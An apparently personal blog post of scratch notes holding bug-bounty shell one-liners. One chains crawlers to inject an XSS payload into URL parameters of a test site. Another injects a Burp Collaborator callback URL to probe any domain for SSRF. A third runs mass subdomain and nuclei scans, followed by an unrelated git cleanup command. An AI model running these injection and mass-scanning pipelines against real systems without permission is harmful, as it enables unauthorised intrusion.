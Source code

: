 ```yaml
---
title: "HelloWorld"
date: 2023-07-23T16:51:27-07:00
draft: false
---
```


### Let's see how this works.

### Notes.

```
~%$: echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### How about an ssrf one:
```
~%$: findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

### ~~Scratch this.~~:
```
~%$: xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```


### ~~Randonm git.~~:
```
git status | grep 'deleted:' | sed 's/deleted:    //' | xargs git rm
```

